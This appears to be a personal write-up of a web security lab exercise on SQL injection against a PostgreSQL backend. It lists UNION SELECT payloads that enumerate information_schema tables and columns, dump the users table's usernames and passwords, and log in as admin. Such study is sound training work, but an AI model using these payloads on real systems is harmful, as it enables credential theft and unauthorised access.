




# Lab: SQL injection attack, listing the database contents on non-Oracle databases
- In this lab we are asked to check the schema of non oracle DB, and then know the table name which holds usernames and passwords, then know the columns names, then retrieve the contents of this table, and login as admin. 
  
## Lets try to do it manually
1. I need to know: 
   1. where the SQLi vulnerability is. 
      1. At the category query parameter as usual
   2. the columns number
      1. order by 3 gets error -> # cols = 2
   3. the datatype. 
      1. both are strings. 
   4. SQL DB type and version
      1. ' Union Select 'a', version() -- gets the version, so it is postgrSQL
   5. the command that is used that DB to retrieve the schema
      1. SELECT * FROM information_schema.tables
      2. but here we can not use *, we need to use only 2 values, and all what we need to extract is table_name, so we can use this payload: 
         1. ' Union Select table_name, 'a' from information_schema.tables --
         2. 
         3. 
         4. We are interested in the tables which contains keyword **users**, so we can search, and we will find users_eabgfm
   6. the command used to retrieve the columns
      1. SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
      2. Again, we can not retrieve everything, we are intrested only in column_name, so we can use this payload: 
         1. ' Union select column_name, 'a' from information_schema.columns where table_name = users_eabgfm
         2. and we are looking for something like username and password, so we can search for them and we can find: password_nymekz, and username_nfbgae 
   7. Execute the payload which get all user names and passwords
      1. now we can simply do the following: 
         1. ' Union select password_nymekz, username_nfbgae from users_eabgfm
         2. 
   8.  Login as admin. 
       1.  Now, we can simply use the retrieved data of admin, and login
       2.  